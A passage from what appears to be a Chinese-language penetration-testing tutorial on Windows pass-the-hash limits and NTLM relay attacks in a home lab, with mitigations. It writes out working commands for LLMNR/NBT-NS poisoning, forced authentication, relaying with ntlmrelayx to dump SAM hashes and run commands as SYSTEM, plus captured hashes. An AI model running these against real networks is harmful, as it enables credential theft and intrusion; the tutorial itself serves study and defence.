 驱动器 \\192.168.52.133\c$ 中的卷没有标签。
 卷的序列号是 C69D-4CBF

 \\192.168.52.133\c$\users 的目录

2023/10/16  09:10    <DIR>          .
2023/10/16  09:10    <DIR>          ..
2023/10/16  09:10    <DIR>          Administrator
2023/10/16  09:10    <DIR>          Public
               0 个文件              0 字节
               4 个目录 51,122,204,672 可用字节
```

Mimikatz 的 PtH 利用原理很复杂，没有 Windows 认证知识储备不太能够理解，这里找到一篇文章介绍其工作原理：[Inside the Mimikatz Pass-the-Hash Command (Part 2)](https://www.praetorian.com/blog/inside-mimikatz-part2/)。大概是创建一个登录会话把凭证覆盖，反正需要与 LSASS 交互，动作很大并不推荐使用。

**二、PtH 的限制，为什么没法 PtH**

1.LocalAccountTokenFilterPolicy

通过本地的 Administrators 组内管理员哈希进行 PtH 失败是因为 [Remote UAC](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction) 启用导致 Shell 只有中完整性，执行需要管理员权限的操作会受 UAC 限制。

Remote UAC 由注册表 LocalAccountTokenFilterPolicy 默认启用，有两个数值控制是否启用：

-   值是 0 时启用，表示只有 RID 为 500 的 Administrator 默认管理员账户可以使用管理员功能。同时 0 也是默认值。
-   值是 1 时禁用，任何在 Administrators 组里的用户都可以使用管理员功能。
    
    ```plaintext
    REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v LocalAccountTokenFilterPolicy  /t REG_DWORD /d "1" /f
    ```
    

有了这条注册表限制就意味着只能对默认的 Administrator 账户进行 PtH，但实际情况，网上很多文章为了方便 WinRM 进行远程管理 Windows 主机就禁用 Remote UAC。

在文档中还查到，ADDS 中的 [Administrators 组中的用户则不受此限制](https://learn.microsoft.com/en-US/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction#domain-user-accounts-active-directory-user-account)，也包括加域的机器 Administrators 本地组中域用户不受限制。换言之获取到域账户哈希进行 PtH 不受 UAC 影响。

2.FilterAdministratorToken

如果在注册表中启用 [FilterAdministratorToken](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/7c705718-f58e-4886-8057-37c8fd9aede1)，本地 Administrators 组内用户 PtH 会被 UAC 限制为中完整性，域用户不受影响。

这意味着任何管理员账户都不能 PtH。如 RID 为 500 的 Administrator 账户进行 PtH，无效，就算启用 LocalAccountTokenFilterPolicy 用 Administrators 内其他管理员也不行。

好在 FilterAdministratorToken 默认值是 0 不启用，要想启用就设置为 1。

```plaintext
# 禁用
reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v FilterAdministratorToken /t REG_DWORD /d 0 /f

# 启用
reg add HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v FilterAdministratorToken /t REG_DWORD /d 1 /f
```

3.KB2871997 补丁

2014 年 5 月 13 发布的 [KB2871997 补丁](https://msrc.microsoft.com/blog/2014/06/an-overview-of-kb2871997/)，主要限制 PtH 方法一个是用组策略不让用户远程认证，二是让你获取不到凭据。

-   ADDS 中新增 [Protected Users](https://learn.microsoft.com/zh-cn/windows-server/identity/ad-ds/manage/understand-security-groups#protected-users) 用户组，所有加到组里的用户不能使用约束委派、非约束委派、只能使用 Kerberos 认证。
    
-   新增 [Restricted Admin Mode](https://social.technet.microsoft.com/wiki/contents/articles/32905.remote-desktop-services-enable-restricted-admin-mode.aspx)，服务端启用此模式后 RDP 客户端也使用此模式进行连接，不会有凭证落地。这就让你没法盗取凭证嘞。
    
-   新增两个 SID
    
    -   S-1-5-113: NT AUTHORITY\\Local account
    -   S-1-5-114: NT AUTHORITY\\Local account and member of Administrators group
    
    S-1-5-114 是单指本地用户中的 Aministrators 组，S-1-5-113 可以理解为本地中所有用户，当中是包含了管理员用户。
    
    有了这两 SID 方便了在组策略中阻止 PtH，工作组打开本地组策略，域打开域组策略在，工具功能路径在“服务管理器 -> 仪表盘 -> 工具 -> 组策略管理”打开。
    
    打开后规则路径“计算机配置 -> Windows 设置 -> 安全设置 -> 本地策略 -> 用户权限分配中”找到拒绝本地登录和拒绝从网络访问这台计算机两条规则。
    
    
    
    添加时需要组名，S-1-5-113 叫 `NT AUTHORITY\本地帐户`，S-1-5-114 叫 `NT AUTHORITY\本地帐户和管理员组成员`。在不的语言下文字会显示不通，这只是在系统设置中文情况下的展示，其他国家语言可以使用 `whoami /groups` 查看对应 SID 组名，其中组名就是以反斜线分隔右侧的描述。
    
    
    
-   禁止 WDigest 存储明文凭证到 LSASS 进程成为默认行为。这在[抓取密码](#Mimikatz:~:text=%E6%89%93%E4%BA%86%E8%A1%A5%E4%B8%81-,KB2871997,-%EF%BC%8C%E6%AD%A4%E8%A1%A5%E4%B8%81%E8%AE%A9)小节有提到过，是加大了获取哈希的难度。
    
-   新增注销登录后 30 秒内清除 LSASS 中明文密码、NT/LM Hash、Kerberos TGT/Session key。
    
    这在 Windows 8.1、Windows 10、Windows Server 2012 R2 开始这是[默认行为](https://www.reliaquest.com/blog/credential-dumping-part-2-how-to-mitigate-windows-credential-stealing/#accelerate)，自此之前的版本，如 Windows 7 和 Server 2012 需要主动在注册表开启，下面是设置了 30 秒清除
    
    ```plaintext
    reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa /v TokenLeakDetectDelaySecs /t REG_DWORD  /d 30 /f
    ```
    

**三、针对 PtH 的解决方案**

怎么解决哈希通用这个场景呢？

在域中的计算机可以用 [LAPS（Local Administrator Password Solution）](https://learn.microsoft.com/zh-cn/windows-server/identity/laps/laps-overview)，或者启用注册表 FilterAdministratorToken 限制权限，再一个可以通过组策略启用“拒绝从网络访问这台计算机”，禁止某些用户远程登录。

#### 3.2.4 NTLM Relaying

NTLM 中继是中间人攻击，当受害主动访问中间人服务器，转发受害人 NTLM 认证每一步到目标服务器完成认证，从而中间人服务器获得目标服务器的权限。简单来理解这跟挂着代理访问网站一样，也是中间人转发流量，代理要拿着你的凭证作恶，就等于拿下权限。

> 
> 
> 图片来源：[NTLM Relay - hackndo](https://en.hackndo.com/ntlm-relay/)

这里想到两个问题：

Q1：获取到 NTLM 哈希不能重放吗？  
A1：需要注意获取到哈希也不能重放，因为挑战值是随机的，中间人服务器没法拿到受害者的密码哈希加密。

Q2：为什么能够攻击成功？  
A2：因为客户端和服务端相互也不去验对方身份，从双方角度来看就是个正常认证过程，所以就产生的中间人攻击。这时候可以验证签名，就算能够身份认证通过，后续会话中如果服务器要求客户端需要拿只有它自己知道的内容去计算签名，中间人服务器没法计算，所以会话失败。甚至可以验证 SPN 来看客户端是不是伪造的。

##### 捕获 NTLM 哈希

要想转发哈希利用其他服务器，首先得捕获到人家的哈希才行，这里提供几种方式来让受害者访问中间人服务。

1.使用 LLMNR、MDNS、NBT-NS 欺骗。当受害者访问一个不存在的名称时，自动被欺骗访问中间人服务器，就会收到哈希去转发利用

2.强制认证。实际上等待主动访问不太现实，你也不知道人家什么时候访问，全靠运气。这时有两种选择：

-   使用 [Printerbug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)、[PetitPotam](https://github.com/topotam/PetitPotam) 强制受害者机器访问中间人服务器。
-   使用 [Responder](https://github.com/lgandx/Responder) 进行 LLMNR、MDNS、NBT-NS、WPAD 欺骗，让用户输错名称自动欺骗到我们指定服务器。

3.其他。还有很多中利用方式网上搜搜就能得到，不在文章中一一演示占用篇幅。

-   WordPad OLE 泄露 Hash，漏洞编号是 CVE-2023-36563
-   lnk 快捷方式
-   文件夹内 .desktop.ini 文件中的 IconResource 属性
-   .scf 文件 中的 IconFile 属性
-   [Access Linked Table Feature](https://research.checkpoint.com/2023/abusing-microsoft-access-linked-table-feature-to-perform-ntlm-forced-authentication-attacks/)
-   word 文档的 document.xml.xrels
-   系统命令。也都是网上复制过来的，井号开始的都是注释和命令说明，不要当做命令执行。
    
    ```plaintext
    net.exe use \\host\shareFload 
    attrib.exe \\host\shareFload  
    bcdboot.exe \\host\shareFload  
    bdeunlock.exe \\host\shareFload  
    cacls.exe \\host\shareFload  
    certreq.exe \\host\shareFload #(noisy, pops an error dialog) 
    certutil.exe \\host\shareFload  
    cipher.exe \\host\shareFload  
    ClipUp.exe -l \\host\shareFload  
    cmdl32.exe \\host\shareFload  
    cmstp.exe /s \\host\shareFload  
    colorcpl.exe \\host\shareFload #(noisy, pops an error dialog)  
    comp.exe /N=0 \\host\shareFload \\host\shareFload  
    compact.exe \\host\shareFload  
    control.exe \\host\shareFload  
    convertvhd.exe -source \\host\shareFload -destination \\host\shareFload  
    Defrag.exe \\host\shareFload  
    diskperf.exe \\host\shareFload  
    dispdiag.exe -out \\host\shareFload  
    doskey.exe /MACROFILE=\\host\shareFload  
    esentutl.exe /k \\host\shareFload  
    expand.exe \\host\shareFload  
    extrac32.exe \\host\shareFload  
    FileHistory.exe \\host\shareFload #(noisy, pops a gui)  
    findstr.exe * \\host\shareFload  
    fontview.exe \\host\shareFload #(noisy, pops an error dialog)  
    fvenotify.exe \\host\shareFload #(noisy, pops an access denied error)  
    FXSCOVER.exe \\host\shareFload #(noisy, pops GUI)  
    hwrcomp.exe -check \\host\shareFload  
    hwrreg.exe \\host\shareFload  
    icacls.exe \\host\shareFload   
    licensingdiag.exe -cab \\host\shareFload  
    lodctr.exe \\host\shareFload  
    lpksetup.exe /p \\host\shareFload /s  
    makecab.exe \\host\shareFload  
    msiexec.exe /update \\host\shareFload /quiet  
    msinfo32.exe \\host\shareFload #(noisy, pops a "cannot open" dialog)  
    mspaint.exe \\host\shareFload #(noisy, invalid path to png error)  
    msra.exe /openfile \\host\shareFload #(noisy, error)  
    mstsc.exe \\host\shareFload #(noisy, error)  
    netcfg.exe -l \\host\shareFload -c p -i foo
    ```
    

**一、LLMNR/NBT-NS/(M)DNS Poisoning**

Windows 在输入名称，是有个查找顺序的：

-   这个主机名是不是自己
-   DNS 缓存
-   Hosts
-   DNS/MDNS 请求
-   NBNS
-   LLMNR

DNS 找不到 NBNS（NetBIOS Name Service）就向当前网段广播地址发起广播，查询 DONTORESOURCES，LLMNR（Link-local Multicast Name Resolution）则是向 224.0.0.252 发起组播。

Win + r 访问 `\\aasdazzz` Wireshark 抓个包“[正常访问 aasdazzz 共享找不到主机.pcapng](https://www.raingray.com/usr/uploads/2023/12/633327771.pcapng)"，会发现没有机器响应 192.168.37.3 谁是 AASDAZZZ，则显示找不到。

如果有恶意机器就说我是 DONTORESOURCES 呢？此时欺骗产生了，发起查询的机器无条件相信，恶意机器就是 DONTORESOURCES。同样抓了个包“[NBNS 和 LLMNR 被欺骗到 Responder（192.168.37.2）上.pcapng](https://www.raingray.com/usr/uploads/2023/12/28203670.pcapng)”，可以从包 No.10 中看到 192.168.37.2 响应了 mDNS 说自己就是 aasdzzz.local，结果就是成功被欺骗到中间人搭建的 SMB 共享上。

下面我们搭建整个实验环境，演示如何欺骗过程。

运行中间人服务器（192.168.37.2）[Responder](https://github.com/SpiderLabs/Responder)。这里使用 -I 选项是用来指定欺骗服务监听在哪张网卡，-A 分析 LLMNR 和 NBT-NS 请求有哪些机器被欺骗到。

```plaintext
responder -I <Interface Name> -A
```



再次访问 `\\dontoresources` 就收到流量。



通过受害者机器（192.168.37.3）来看，确实没有欺骗到。



这次重新运行服务真的欺骗，只需将 -A 参数删掉即可。再随机访问资源 `\\aasdzzz` 会欺骗到 192.168.37.2。

```plaintext
responder -I <Interface Name>
```

当受害者（192.168.37.3）手误访问不存在的共享，都会将名称欺骗到中间人服务（192.168.37.2），最后就访问到 Responder 启用的 SMB 服务捕捉到当前登录账户的 NTLMv2 hash。这里捕获到的是域用户 raingray\\zhangqi 的 NTLMv2 hash。如果你主动访问恶意服务器也会被捕获到哈希。



```plaintext
zhangqi::RAINGRAY:f71ed9c61061a15d:425AE2D50A2D2EBD6C5BA077C5CD1613:010100000000000004800300004003400570049004E002D0059004D003700440030005A00410052005300480030002E004C003600510034002E004C004F0043024DA0106000400020000000800300030000000000000000100000000200000E48601B229B05D9E06C29D7660111E936588BD4D708CB0BC56E0032000000000000000000
```

客户端也正常访问到中间人 SMB 服务。



**二、Printerbug 和 PetitPotam 强制认证⚒️**

上面通过这样主动等待访问去欺骗 IP，不如强制访问来的便捷。

**强制认证要补充一下 Printerbug 和 PetitPotam 强制认证利用限制，比如说这个 CVE-2019 XXXX 在什么时候不能使用。**

1.Printerbug

使用 [SpoolSample](https://github.com/leechristensen/SpoolSample)工具或者 [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)。原理就是 RPC 调用，可以未授权强制任何机器调用。后来微软修复成允许授权的用户进行调用。

让 TargetIP2 去访问 TargetIP1。

```plaintext
python3 printerbug.py -no-pass <TargetIP2> <TargetIP1> 
```

2.PetitPotam

[PetitPotam](https://github.com/topotam/PetitPotam)

让 TargetIP2 去访问 TargetIP1。

```plaintext
python3 PetitPotam.py <TargetIP1> <TargetIP2>
```

##### 将哈希中继到其他服务

###### SMB To SMB

**一、确认 Relay 目标，找到哪些机器没开启签名**

如果提供 SMB 服务的服务器要求签名，那我们攻击会失败。启用服务端签名是在注册表中将 RequireSecuritySignature 设置为 1。

```plaintext
// SMB 服务端启用签名
reg add HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters /v RequireSecuritySignature /t REG_DWORD /d 1 /f
```

默认情况下除域控外都没开启签名。如果使用的是 SMB3 会默认开启签名，不过现在默认运行的都是 SMB2 默认是不需要签名的。

1.CrackMapExec

\--gen-relay-list 选项直接将能够 Relay 的 IP 存入 relayTargets.txt 中。

```plaintext
# 直接扫网段
cme smb <IPv4 CIDR> --gen-relay-list relayTargets.txt

# 扫指定主机，多个主机可以用空格隔开
cme smb <IP> --gen-relay-list relayTargets.txt
```

通过 signing:False 来看那些机器机器没有开启签名。

```plaintext
┌──(kali㉿kali)-[~/Desktop]
└─$ crackmapexec smb 192.168.37.0/24  --gen-relay-list relayTargets.txt
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing RDP protocol database
[*] Initializing SSH protocol database
[*] Initializing FTP protocol database
[*] Initializing WINRM protocol database
[*] Initializing MSSQL protocol database
[*] Initializing LDAP protocol database
[*] Initializing SMB protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         192.168.37.3    445    PC-02            [*] Windows 10.0 Build 19041 x64 (name:PC-02) (domain:raingray.com) (signing:False) (SMBv1:False)
SMB         192.168.37.5    445    PC-01            [*] Windows 10.0 Build 19041 x64 (name:PC-01) (domain:raingray.com) (signing:False) (SMBv1:False)
SMB         192.168.37.1    445    DC-BEIJING-01    [*] Windows 10.0 Build 17763 x64 (name:DC-BEIJING-01) (domain:raingray.com) (signing:True) (SMBv1:False)

┌──(kali㉿kali)-[~/Desktop]
└─$ head relayTargets.txt 
192.168.37.3
192.168.37.5
```

2.Responder 的工具 [RunFinger.py](https://github.com/lgandx/Responder/blob/master/tools/RunFinger.py)。

```plaintext
python RunFinger.py -i <网段>/<子网>
```

根据 Signing:'False' 判断没开启签名。

```plaintext
┌──(kali㉿kali)-[~]
└─$ sudo responder-RunFinger -i 192.168.37.0/24
[SMB2]:['192.168.37.3', Os:'Windows 10/Server 2016/2019 (check build)', Build:'19041', Domain:'RAINGRAY', Bootime: 'Unknown', Signing:'False', RDP:'True', SMB1:'False', MSSQL:'False']
[SMB2]:['192.168.37.1', Os:'Windows 10/Server 2016/2019 (check build)', Build:'17763', Domain:'RAINGRAY', Bootime: 'Unknown', Signing:'True', RDP:'False', SMB1:'False', MSSQL:'False']
[SMB2]:['192.168.37.5', Os:'Windows 10/Server 2016/2019 (check build)', Build:'19041', Domain:'RAINGRAY', Bootime: 'Unknown', Signing:'False', RDP:'False', SMB1:'False', MSSQL:'False']
```

3.Nmap

nmap 的 nes 脚本 [smb-security-mode.nse](https://nmap.org/nsedoc/scripts/smb-security-mode.html)。

```plaintext
# 扫网段
nmap --script=smb-security-mode.nse -p 445 -n -Pn --open <CIDR>

# 扫描单个机
nmap --script=smb-security-mode.nse -p 445 -n -Pn --open <IP>

# 扫描几个机器，用空格分隔 192.168.1.1 192.168.1.2
nmap --script=smb-security-mode.nse -p 445 -n -Pn --open <IP> <IP>

# 扫描指定范围机器，横线表示范围 192.168.1.1-192.168.1.80
nmap --script=smb-security-mode.nse -p 445 -n -Pn --open <IP>-<IP>
```

根据响应中 Message signing enabled but not required 来判断不需要签名，Message signing enabled and required 就是要求签名。

```plaintext
┌──(kali㉿kali)-[~]
└─$ nmap --script=smb2-security-mode.nse -p 445 -n -Pn --open 192.168.37.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-03 09:01 EST
Nmap scan report for 192.168.37.1
Host is up (0.00079s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Nmap scan report for 192.168.37.2
Host is up (0.00069s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   2:0:2: 
|_    Message signing enabled but not required

Nmap scan report for 192.168.37.3
Host is up (0.00068s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap scan report for 192.168.37.5
Host is up (0.00060s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap done: 256 IP addresses (256 hosts up) scanned in 3.00 seconds
```

**二、获取 SAM hashs**

如果受害者 A 对机器 B 有管理员权限，可以 SMB 中继到 B 机器 SMB 上，使用 secretsdump.py 启用 RemoteRegistry 远程导出 SAM 中 NT hash。又如何知道受害者对某个 SMB 有管理权？没法知道，只能盲打所有没有开启签名的机器，去碰有没有权限。

这次整个演示中继利用的工具是 impacket 的 [ntlmrelaytx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)，当然也可以使用 [Inveigh](https://github.com/Kevin-Robertson/Inveigh)。

Relay 到指定 IP 使用 -t。

```plaintext
python3 ntlmrelayx.py -t <Doamin FEDM>\<UserName>@<IP> -smb2support
```

Relay 到多个 IP 可以用 -tf 选项，会针对 relayTargets.txt 每行的目标 Relay。-smb2support 支持 SMBv2，不加此选项就默认启用 SMBv1，而现在新系统 Win10/11 都不支持 SMBv1 没法查看 SMBv1 的共享，-of 是输出文件，将攻击的结果存到执行文件里。

```plaintext
python3 ntlmrelayx.py -of relayReulst.txt -tf relayTargets.txt -smb2support
```

运行后会自动启动 SMB 服务，只要有受害者访问到我们 SMB 就会直接中继到 relayResult.txt 中的 IP。默认工具还多开了 WCF、HTTP Server，不需要可以用 --no-http-server，--no-wcf-server，--no-raw-server 关闭。

```plaintext
┌──(kali㉿kali)-[~/Desktop]
└─$ impacket-ntlmrelayx -of relayReulst.txt -tf relayTargets.txt -smb2support --no-http-server --no-wcf-server --no-raw-server
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client RPC loaded..
[*] Running in relay mode to hosts in targetfile
[*] Setting up SMB Server

[*] Servers started, waiting for connections
```

除非受害者主动访问 ntlmrelayx.py 开启的 SMB 服务，才能攻击 relayReulst.txt 其他机器 SMB。这里启动 Responder 欺骗去受害者访问 ntlmrelayx.py 启动的 SMB 服务。

为避免和 ntlmrelayx.py 开启的 SMB 冲突，需要编辑 Responder.conf 把 Responder 的 SMB 服务关闭。

```plaintext
sudo sed -i 's/SMB = On/SMB = Off/' /usr/share/responder/Responder.conf
```

其实前面 ntlmrelayx.py 已经开启 SMB 服务，这里关不关无所谓的，因为端口已经被占用。关闭的原因就怕无脑先启 Responder 后启 ntlmrelayx.py。

```plaintext
[!] Error starting TCP server on port 445, check permissions or other servers running.
```

先开启 Responder 确保输错内容可以被欺骗到 ntlmrelayx.py 开启的中间人 SMB 服务。-v 选项就是开启详细日志功能。

```plaintext
sudo responder -I eth1 -v
```

受害者 raingray/zhangqi 访问错了共享。

```plaintext
C:\Users\zhangqi>dir \\testaz\share
系统找不到指定的路径。
```

Responder 收到 192.168.37.3 发起的 testaz 名称查询的广播，直接响应 Responder 监听的网卡 IP。

```plaintext
[*] [MDNS] Poisoned answer sent to 192.168.38.1    for name raingray.local
[*] [MDNS] Poisoned answer sent to fe80::8327:c6c3:11ad:2330 for name raingray.local
[*] [MDNS] Poisoned answer sent to 192.168.37.3    for name testaz.local
[*] [NBT-NS] Poisoned answer sent to 192.168.37.3 for name TESTAZ (service: File Server)
[*] [MDNS] Poisoned answer sent to 192.168.37.3    for name testaz.local
[*] [MDNS] Poisoned answer sent to fe80::73ab:d035:7fd3:9b2f for name testaz.local
[*] [MDNS] Poisoned answer sent to fe80::73ab:d035:7fd3:9b2f for name testaz.local
[*] [LLMNR]  Poisoned answer sent to fe80::73ab:d035:7fd3:9b2f for name testaz
[*] [LLMNR]  Poisoned answer sent to 192.168.37.3 for name testaz
[*] [LLMNR]  Poisoned answer sent to fe80::73ab:d035:7fd3:9b2f for name testaz
[*] [LLMNR]  Poisoned answer sent to 192.168.37.3 for name testaz
[*] [MDNS] Poisoned answer sent to 192.168.37.3    for name testaz.local
[*] [MDNS] Poisoned answer sent to 192.168.37.3    for name testaz.local
[*] [MDNS] Poisoned answer sent to fe80::73ab:d035:7fd3:9b2f for name testaz.local
[*] [MDNS] Poisoned answer sent to fe80::73ab:d035:7fd3:9b2f for name testaz.local
[*] [LLMNR]  Poisoned answer sent to fe80::73ab:d035:7fd3:9b2f for name testaz
[*] [LLMNR]  Poisoned answer sent to 192.168.37.3 for name testaz
[*] [LLMNR]  Poisoned answer sent to fe80::73ab:d035:7fd3:9b2f for name testaz
[*] [LLMNR]  Poisoned answer sent to 192.168.37.3 for name testaz
[*] [MDNS] Poisoned answer sent to 192.168.37.3    for name testaz.local
[*] [MDNS] Poisoned answer sent to fe80::73ab:d035:7fd3:9b2f for name testaz.local
[*] [MDNS] Poisoned answer sent to fe80::73ab:d035:7fd3:9b2f for name testaz.local
[*] [MDNS] Poisoned answer sent to 192.168.37.3    for name testaz.local
[*] [LLMNR]  Poisoned answer sent to fe80::73ab:d035:7fd3:9b2f for name testaz
[*] [LLMNR]  Poisoned answer sent to fe80::73ab:d035:7fd3:9b2f for name testaz
[*] [LLMNR]  Poisoned answer sent to 192.168.37.3 for name testaz
[*] [LLMNR]  Poisoned answer sent to 192.168.37.3 for name testaz
[*] [MDNS] Poisoned answer sent to 192.168.37.3    for name testaz.local
[*] [MDNS] Poisoned answer sent to fe80::73ab:d035:7fd3:9b2f for name testaz.local
[*] [MDNS] Poisoned answer sent to 192.168.37.3    for name testaz.local
[*] [LLMNR]  Poisoned answer sent to fe80::73ab:d035:7fd3:9b2f for name testaz
[*] [MDNS] Poisoned answer sent to fe80::73ab:d035:7fd3:9b2f for name testaz.local
[*] [LLMNR]  Poisoned answer sent to 192.168.37.3 for name testaz
[*] [LLMNR]  Poisoned answer sent to fe80::73ab:d035:7fd3:9b2f for name testaz
[*] [LLMNR]  Poisoned answer sent to 192.168.37.3 for name testaz
```

而 ntlmrelayx.py 启动的 SMB 服务成功收到受害者 RAINGRAY/ZHANGQI@192.168.37.3 连接，并且对 smb://192.168.37.5 连接成功，获取到 SAM 中的 Hashs。这说明 RAINGRAY/ZHANGQI 对 192.168.37.5 有管理员权限，而我确实是在 192.168.37.5 的本地 Administrators 添加了 RAINGRAY/ZHANGQI 账户。

```plaintext
[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Connection from RAINGRAY/ZHANGQI@192.168.37.3 controlled, attacking target smb://192.168.37.3
[-] Authenticating against smb://192.168.37.3 as RAINGRAY/ZHANGQI FAILED
[*] SMBD-Thread-6 (process_request_thread): Connection from RAINGRAY/ZHANGQI@192.168.37.3 controlled, attacking target smb://192.168.37.5
[*] Authenticating against smb://192.168.37.5 as RAINGRAY/ZHANGQI SUCCEED
[*] SMBD-Thread-6 (process_request_thread): Connection from RAINGRAY/ZHANGQI@192.168.37.3 controlled, attacking target smb://192.168.37.3
[-] Authenticating against smb://192.168.37.3 as RAINGRAY/ZHANGQI FAILED
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x232a1f94a04720795aa3c9a23ea13784
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
[*] SMBD-Thread-8 (process_request_thread): Connection from RAINGRAY/ZHANGQI@192.168.37.3 controlled, but there are no more targets left!
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:98feb9b195adec8f7336e5471d6e435d:::
wuhui:1001:aad3b435b51404eeaad3b435b51404ee:9df8fdcfb193c34fb9770367491e25d1:::
[*] Done dumping SAM hashes for host: 192.168.37.5
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

那能不能通过 SMB 中继回受害者自己的 SMB 呢？这样方便进行提权到 SYSTEM，从目前执行结果来看是失败的。但 2008 年是可以的，叫 NTLM Reflection，后来被微软被修复，漏洞编号是 [MS08-068](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-068#smb-credential-reflection-vulnerability---cve-2008-4037)（CVE-2008-4037）。

```plaintext
[*] SMBD-Thread-5 (process_request_thread): Connection from RAINGRAY/ZHANGQI@192.168.37.3 controlled, attacking target smb://192.168.37.3
[-] Authenticating against smb://192.168.37.3 as RAINGRAY/ZHANGQI FAILED
```

不过已经有一篇 [Ghost Potato](https://shenaniganslabs.io/2019/11/12/Ghost-Potato.html) 文章中介绍了 CVE-2019-1384 反射绕过方式，在 ntlmrelayx.py 中通过 --gpotato-startup 选项实现了此利用方式，比如 --gpotato-startup 1.exe，则会将 1.exe 上传到目标启动目录。

**三、执行一次性命令**

不添加任何选项默认行为是 Dump SAM Hashs，使用 -c 选项可以执行一个命令。最重要的一点是 -c 选项，每个链接攻击有效性只有一次，当受害者重复访问不能每次都去执行命令，除非重启中间人服务让受害者再次访问。

```plaintext
python3 ntlmrelayx.py -t <Relay Target> -c "<Command>" --no-http-server --no-wcf-server --no-raw-server
```

这里执行 whoami 发现自动把 Administrator 提升到 SYSTEM 权限。

```plaintext
┌──(kali㉿kali)-[~/Desktop]
└─$ impacket-ntlmrelayx -of relayReulst.txt -t smb://192.168.37.5 -smb2support -c "whoami"               
Impacket v0.11.0 - Copyright 2023 Fortra
......
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.37.3, attacking target smb://192.168.37.5
[*] Authenticating against smb://192.168.37.5 as RAINGRAY/ZHANGQI SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] SMBD-Thread-7 (process_request_thread): Connection from 192.168.37.3 controlled, but there are no more targets left!
[*] Executed specified command on host: 192.168.37.5
nt authority\system

[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
[*] SMBD-Thread-8 (process_request_thread): Connection from 192.168.37.3 controlled, but there are no more targets left!
......
```

这个 -c 选项也蛮多 Bug 的，比如默认用 cmd 拼接多条命令执行 `-c "whoami /all && ipconfig /all"`，提示 `SMB SessionError: STATUS_OBJECT_NAME_NOT_FOUND(The object name is not found.)`。

```plaintext
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.37.3, attacking target smb://192.168.37.5
[*] Authenticating against smb://192.168.37.5 as RAINGRAY/ZHANGQI SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] SMBD-Thread-7 (process_request_thread): Connection from 192.168.37.3 controlled, but there are no more targets left!
[*] Executed specified command on host: 192.168.37.5
[-] SMB SessionError: STATUS_OBJECT_NAME_NOT_FOUND(The object name is not found.)
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
[*] SMBD-Thread-8 (process_request_thread): Connection from 192.168.37.3 controlled, but there are no more targets left!
......
```

只能通过给出完整命令行执行多条命令。另外在中文环境碰到输出乱码，是中文编码导致的，可以用 -codec 指定 gbk 编码解决。

```plaintext
┌──(kali㉿kali)-[~]
└─$ impacket-ntlmrelayx -t 192.168.37.5 -smb2support -c 'cmd /c "whoami && ipconfig"' --no-http-server --no-wcf-server --no-raw-server -codec gbk
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Protocol Client MSSQL loaded..
......
[*] Running in relay mode to single host
[*] Setting up SMB Server

[*] Servers started, waiting for connections
[*] SMBD-Thread-2 (process_request_thread): Received connection from 192.168.37.3, attacking target smb://192.168.37.5
[*] Authenticating against smb://192.168.37.5 as RAINGRAY/ZHANGQI SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] SMBD-Thread-4 (process_request_thread): Connection from 192.168.37.3 controlled, but there are no more targets left!
[*] Executed specified command on host: 192.168.37.5
nt authority\system

Windows IP 配置


以太网适配器 Ethernet0:

